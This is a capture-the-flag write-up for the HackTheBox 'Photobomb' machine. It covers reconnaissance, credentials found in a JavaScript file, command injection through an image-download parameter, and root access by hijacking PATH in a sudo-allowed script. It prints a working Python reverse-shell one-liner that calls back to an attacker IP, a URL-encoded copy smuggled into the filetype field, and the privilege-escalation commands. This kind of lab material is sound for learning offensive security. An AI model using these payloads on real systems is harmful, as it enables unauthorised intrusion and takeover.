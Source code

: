 ![image1](https://github.com/visionthex/Photobomb/blob/main/Images/image1.png)
[HACKTHEBOX](https://hackthebox.com)

# HackTheBox: Photobomb Writeup

## Photobomb
### Reconnaissance | Scanning

To begin with, our first priority is to conduct reconnaissance using the provided IP. Our plan is to perform an Nmap scan of the network in order to identify any open ports.

![image2](https://github.com/visionthex/Photobomb/blob/main/Images/image2.png "Nmap Scan")

By analyzing the current status, we can observe that only two ports are accessible - port 22 and port 80. The latter, identified as an http port, appears to be running nginx 1.18.0 on Ubuntu. Our next course of action is to focus on port 80 and investigate any potential website content. Utilizing the given IP address of `10.129.228.60`, we can explore the contents available on this specific port.

![image3](https://github.com/visionthex/Photobomb/blob/main/Images/image3.png "IP Showing URL Name")

At this point, we need to include the new URL `photobomb.htb` to the `/etc/hosts` file to access the corresponding webpage. From here we will nano into the `/etc/hosts` file.

![image4](https://github.com/visionthex/Photobomb/blob/main/Images/image4.png "etc/hosts file")

With the updated IP and URL added to the `/etc/hosts` file, we can now revisit the browser and access the photobomb.htb link. This will allow us to delve deeper into the website and conduct further investigation.

![image5](https://github.com/visionthex/Photobomb/blob/main/Images/image5.png "Webpage working properly")

On the page, we have a hyperlink "click here!" that leads to `photobomb.htb/printer`. Upon clicking on the link, a login popup appears. We attempted to log in with the credentials [![Credentials](https://img.shields.io/badge/admin:-admin-red)](https://shields.io/), but no response was generated. Cancelling the login led us to a 401 Authorization Required error, accompanied by nginx/1.18.0 (Ubuntu) message.

![image6](https://github.com/visionthex/Photobomb/blob/main/Images/image6.png "Login")

![image7](https://github.com/visionthex/Photobomb/blob/main/Images/image7.png "401 Authorization Required Link: photobomb.htb/printer")

Our next step is to examine the source code of the photobomb.htb webpage. After some investigation, we discovered a photobomb.js file that we can explore further.

![image8](https://github.com/visionthex/Photobomb/blob/main/Images/image8.png "photobomb.js file that show credentials")

After conducting a thorough examination of the photobomb.js file, we have uncovered the existence of credentials embedded within the Javascript code. Our next step is to attempt to log in using the credentials [![Credentials](https://img.shields.io/badge/pH0t0:-b0Mb!-green)](https://shields.io/).

![image9](https://github.com/visionthex/Photobomb/blob/main/Images/image9.png "Login page for phtobomb.htb/printer")
![image10](https://github.com/visionthex/Photobomb/blob/main/Images/image10.png "Bottom of page with Download Photo button")

Our next course of action is to set up BurpSuite in order to intercept the connections originating from the "Download Photo to Print" button. This will allow us to view any information or prompts that may appear prior to the page progressing further.

![image11](https://github.com/visionthex/Photobomb/blob/main/Images/image11.png "Intercepting with BurpSuite")

### Gaining Access
At this point, we can begin testing for any potential vulnerabilities with the "Download Photo to Print" button. Our initial approach will be to test for a delay or timing attack by attempting to cause a five-second delay and observing the response.

After conducting further testing and experimenting with the sleep function, it has been confirmed that the page can be made to sleep for five seconds. This may indicate the presence of a potential vulnerability that could be further exploited.

To obtain a reverse shell, we utilized the Online Reverse Shell Generator (revshells.com) and selected the Python3 #1 option.

```
export RHOST="10.10.14.78";export RPORT=5555;python3 -c 'import sys,socket,os,pty;s=socket.socket();s.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("sh")'`
```

Our next step will involve URL encoding the reverse shell and embedding it into the `&filetype=jpg&` field in BurpSuite. Additionally, we must establish a Netcat listener. The method I used to URL encode the reverse shell is by utilizing the built-in function in BurpSuite.

```
%3bexport%20RHOST%3D%2210.10.14.78%22%3Bexport%20RPORT%3D5555%3Bpython3%20-c%20%27import%20sys%2Csocket%2Cos%2Cpty%3Bs%3Dsocket.socket%28%29%3Bs.connect%28%28os.getenv%28%22RHOST%22%29%2Cint%28os.getenv%28%22RPORT%22%29%29%29%29%3B%5Bos.dup2%28s.fileno%28%29%2Cfd%29%20for%20fd%20in%20%280%2C1%2C2%29%5D%3Bpty.spawn%28%22sh%22%29%27
```
![image12](https://github.com/visionthex/Photobomb/blob/main/Images/image12.png "URL Encoded Reverse Shell")

Upon advancing the page in BurpSuite, we successfully captured traffic using the Netcat listener. This indicates that the reverse shell was successfully executed and that we have gained access to the target system.

![image13](https://github.com/visionthex/Photobomb/blob/main/Images/image13.png "Netcat Listener | User Wizard")

Now that we have gained access to the target system, we can proceed to investigate the user "Wizard" and explore the contents of their account.

![image14](https://github.com/visionthex/Photobomb/blob/main/Images/image14.png "Traversing Directories found User Flag")

### Maintaining Access
After traversing through the system directories, I successfully obtained the user flag from the "user.txt" file. Our next step will be to obtain root privileges through privilege escalation.

![image15](https://github.com/visionthex/Photobomb/blob/main/Images/image15.png "Sudo -l")

Using the command `sudo -l`, we were able to determine the type of root privileges granted to the user. It appears that the user has root privileges to execute the command `/opt/clean.sh`. To proceed, we will investigate the `/opt/clean.sh` file by running the `cat /opt/clean.sh` command. This will display the contents of the file in the terminal.

![image16](https://github.com/visionthex/Photobomb/blob/main/Images/image16.png "cat /opt/cleanup.sh")

In the next step, we need to switch to the bash shell and then set the executable permission for the `find` file to gain complete access. We can accomplish this by running `chmod +x find`. The command `echo bash > find` will create a file named `find` in the current directory and write the string `bash` to it. If the file already exists, it will be overwritten.

![image17](https://github.com/visionthex/Photobomb/blob/main/Images/image17.png "echo bash > find | chmod +x find")

The next command is `sudo PATH=$PWD:$PATH /opt/cleanup.sh`. This will add the current working directory to the beginning of the $PATH environment variable, giving priority to any executables in the current directory over those in other directories. Then, it runs the `/opt/clean.sh` script with sudo, which will execute with root privileges because of the sudo command.

![image18](https://github.com/visionthex/Photobomb/blob/main/Images/image18.png "Root Access")

Once you have root access, you can investigate the system further for any important information, such as configuration files, logs, and running processes. This will help you understand how the system works and identify any potential vulnerabilities or misconfigurations that can be exploited. You can also check for any user accounts, credentials, or sensitive data that may be stored on the system. It's important to document your findings and take steps to secure the system to prevent future attacks.

![image19](https://github.com/visionthex/Photobomb/blob/main/Images/image19.png "Root Flag")
